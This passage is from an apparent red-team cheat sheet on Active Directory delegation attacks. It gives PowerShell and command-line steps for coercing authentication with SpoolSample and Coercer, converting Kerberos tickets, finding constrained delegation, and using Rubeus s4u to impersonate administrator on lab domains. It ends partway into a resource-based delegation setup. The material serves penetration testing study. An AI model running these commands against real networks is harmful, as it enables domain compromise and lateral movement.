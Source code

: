 New using authentication coersion
```powershell
# Using Spoolsample. The target must be a computer account, such as a domain controller.
# Or you can use social engineering to make someone log into the machine. 
.\SpoolSample.exe <target> <unconstrinedmachine>

# Coercer is a tools that will automate all of the current coersion methods.
# https://github.com/p0dalirius/Coercer
Coercer coerce -t target -l you -u 'User' -p 'Password'
```

Now to use the tickets gained we can go about this in both linux and windows.

For linux we will need to download them to the attack machine, convert them to a format we can use, and set them in an enviornment variable so that tools can refer to the ticket like a variable.

```bash
# Download or copy the ticket to your attack box

# CCache -> kirbi
ticket_converter.py ticket.ccache ticket.kirbi

# kirbi -> CCache
ticket_converter.py ticket.kirbi ticket.ccache
```

**From here follow a Pass The Ticket attack for lateral movement.**

#### Constrained Delegation

Use powerview, AD module, or bloodhound to search for users with constrained delegation configured.

powerview
```powershell
Get-DomainUser –TrustedToAuth
Get-DomainComputer –TrustedToAuth
```
AD module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

Utilize Rubeus to request the TGS to the delegated host using the configured SPN or use an alternate service.
```powershell
# Default SPN
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/usmssql.us.techcorp.local /domain:us.techcorp.local /ptt

# Specify Service
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/usmssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

#### Resource Based Constrained Delegation

```powershell
# import the necessary toolsets
Import-Module .\powermad.ps1
Import-Module .\powerview.ps1

# we are TESTLAB\attacker, who has GenericWrite rights over the primary$ computer account
whoami

# the target computer object we're taking over
$TargetComputer = "primary.testlab.local"

$AttackerSID = Get-DomainUser attacker -Properties objectsid | Select -Expand objectsid

```